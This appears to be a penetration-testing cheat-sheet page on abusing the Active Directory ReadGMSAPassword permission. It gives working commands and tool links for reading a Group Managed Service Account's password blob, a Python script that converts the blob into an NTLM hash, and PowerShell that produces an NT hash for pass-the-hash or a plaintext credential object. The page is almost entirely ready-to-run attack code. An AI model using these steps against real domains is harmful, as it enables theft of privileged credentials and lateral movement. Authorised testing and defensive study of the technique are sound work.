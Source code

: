 # GMSAPasswordRead

ReadGMSAPassword allows an attacker to use the password of a Group Managed Service Account which usually has elevated privileges

<figure><img src="../../../.gitbook/assets/image (18) (3).png" alt=""><figcaption></figcaption></figure>

{% embed url="https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Active%20Directory%20Attack.md#reading-gmsa-password" %}

{% embed url="https://github.com/expl0itabl3/Toolies" %}

```powershell
.\GMSAPasswordReader.exe --accountname 'svc_account'
```

### Remotely Read GMSA Passwords

Retrieve hash remotely if we can't WinRM

{% embed url="https://www.thehacker.recipes/ad/movement/dacl/readgmsapassword" %}

{% embed url="https://github.com/micahvandeusen/gMSADumper" %}

### Manually from gMSADumper

```powershell
(Get-ADServiceAccount -Identity 'SVC_ACCOUNT' -Properties 'msDS-ManagedPassword').'msDS-ManagedPassword' > blob.txt
```

```powershell
(Get-Content 'blob.txt') -join ','
1,0,0,0,36,2,0,0,16,0,18,1,......
```

{% code title="blob2hash.py" %}
```python
#!/usr/bin/env python3
from ldap3 import ALL, Server, Connection, NTLM, SASL, KERBEROS, extend, SUBTREE
import argparse
from binascii import hexlify
from Cryptodome.Hash import MD4
from impacket.ldap.ldaptypes import ACE, ACCESS_ALLOWED_OBJECT_ACE, ACCESS_MASK, LDAP_SID, SR_SECURITY_DESCRIPTOR
from impacket.structure import Structure
from impacket.krb5 import constants
from impacket.krb5.crypto import string_to_key
import sys

data = [1,0,0,0,36,2,0,0,16,0,18,1,......]
#convert this into bytes
data = bytes(data)

class MSDS_MANAGEDPASSWORD_BLOB(Structure):
    structure = (
        ('Version','<H'),
        ('Reserved','<H'),
        ('Length','<L'),
        ('CurrentPasswordOffset','<H'),
        ('PreviousPasswordOffset','<H'),
        ('QueryPasswordIntervalOffset','<H'),
        ('UnchangedPasswordIntervalOffset','<H'),
        ('CurrentPassword',':'),
        ('PreviousPassword',':'),
        #('AlignmentPadding',':'),
        ('QueryPasswordInterval',':'),
        ('UnchangedPasswordInterval',':'),
    )

    def __init__(self, data = None):
        Structure.__init__(self, data = data)

    def fromString(self, data):
        Structure.fromString(self,data)

        if self['PreviousPasswordOffset'] == 0:
            endData = self['QueryPasswordIntervalOffset']
        else:
            endData = self['PreviousPasswordOffset']

        self['CurrentPassword'] = self.rawData[self['CurrentPasswordOffset']:][:endData - self['CurrentPasswordOffset']]
        if self['PreviousPasswordOffset'] != 0:
            self['PreviousPassword'] = self.rawData[self['PreviousPasswordOffset']:][:self['QueryPasswordIntervalOffset']-self['PreviousPasswordOffset']]

        self['QueryPasswordInterval'] = self.rawData[self['QueryPasswordIntervalOffset']:][:self['UnchangedPasswordIntervalOffset']-self['QueryPasswordIntervalOffset']]
        self['UnchangedPasswordInterval'] = self.rawData[self['UnchangedPasswordIntervalOffset']:]


                    
blob = MSDS_MANAGEDPASSWORD_BLOB()
blob.fromString(data)
currentPassword = blob['CurrentPassword'][:-2]

# Compute ntlm key
ntlm_hash = MD4.new ()
ntlm_hash.update (currentPassword)
passwd = hexlify(ntlm_hash.digest()).decode("utf-8")
                    
print(passwd)                   
```
{% endcode %}

```
python blob2hash.py
```

### Powershell

```powershell
# Save the blob to a variable
$gmsa = Get-ADServiceAccount -Identity 'Target_Account' -Properties 'msDS-ManagedPassword'
$mp = $gmsa.'msDS-ManagedPassword'

# Decode the data structure using the DSInternals module
ConvertFrom-ADManagedPasswordBlob $mp
# Build a NT-Hash for PTH
(ConvertFrom-ADManagedPasswordBlob $mp).SecureCurrentPassword | ConvertTo-NTHash
# Alterantive: build a Credential-Object with the Plain Password
$cred = new-object system.management.automation.PSCredential "Domain\Target_Account",(ConvertFrom-ADManagedPasswordBlob $mp).SecureCurrentPassword
```
